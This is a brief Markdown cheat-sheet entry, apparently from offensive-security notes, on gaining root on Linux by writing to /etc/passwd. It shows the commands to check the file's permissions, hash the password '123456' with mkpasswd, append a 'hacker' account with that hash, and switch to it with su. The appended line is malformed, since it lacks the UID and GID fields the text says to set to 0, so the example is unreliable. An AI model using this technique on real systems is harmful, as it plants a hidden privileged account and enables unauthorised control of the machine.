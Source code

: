## What?
File that contains a list of user accounts on the system, as well as details such as user ID, group ID, home directory, and default shell

### How to ?
Check permissions of `/etc/passwd`
```
ls -l /etc/passwd
```
Generate password using MD5 crypt hashing
```
mkpasswd -m md5crypt -s
Password: 123456
$1$YPsFoIf.$eezlMsnTb/0uWw2/WV.tQ0
```
Add the new user with the generated password hash, setting `UID` and `GID` to `0` (for root access)
```
root:x:0:0:root:/root:/bin/bash
deku:x:1000:1000:deku:/home/deku:/bin/bash

hacker:$1$YPsFoIf.$eezlMsnTb/0uWw2/WV.tQ0:hacker:/root:/bin/bash
```
ROOT
```
su hacker
Password: 123456
```
